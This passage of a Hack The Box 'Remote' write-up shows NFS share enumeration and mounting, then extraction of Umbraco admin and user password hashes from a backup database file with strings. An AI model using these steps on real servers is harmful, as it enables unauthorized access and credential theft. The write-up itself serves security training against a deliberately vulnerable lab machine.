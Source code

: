 ## NFS Enumeration

Since the port `2049` is open and `nfs` service is also running on it. So there may be share is available.

- **Reference:** [https://resources.infosecinstitute.com/exploiting-nfs-share/](https://resources.infosecinstitute.com/exploiting-nfs-share/)

```bash
root@w0lf:~/CTF/HTB/Boxes/Remote# showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
root@w0lf:~/CTF/HTB/Boxes/Remote# mount 10.10.10.180:/site_backups ~/CTF/HTB/Boxes/Remote/mount
root@w0lf:~/CTF/HTB/Boxes/Remote# cd mount/
root@w0lf:~/CTF/HTB/Boxes/Remote/mount# ls
App_Browsers  App_Data  App_Plugins  aspnet_client  bin  Config  css  default.aspx  Global.asax  Media  scripts  Umbraco  Umbraco_Client  Views  Web.config
```

There is something called `Umbraco.`

**What is Umbraco?**

- Umbraco is an open-source content management system platform for publishing content on the World Wide Web and intranets. It is written in C# and deployed on Microsoft based infrastructure.

So this must be running on the WebServer. Let's confirm this now.

## HTTP:

> [http://10.10.10.180/umbraco](http://10.10.10.180/umbraco)

![Untitled](/img/htb-remote/Untitled%201.png)

There is a lot of files in the mounted share so I searched for any important files in `Umbraco` and found this.

![Untitled](/img/htb-remote/Untitled%202.png)

So it mentioned a file called `Umbraco.sdf` must contain user details.

Its not in readable format so I used `strings` 

```bash
root@w0lf:~/CTF/HTB/Boxes/Remote/mount/App_Data# strings Umbraco.sdf | less

Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
```
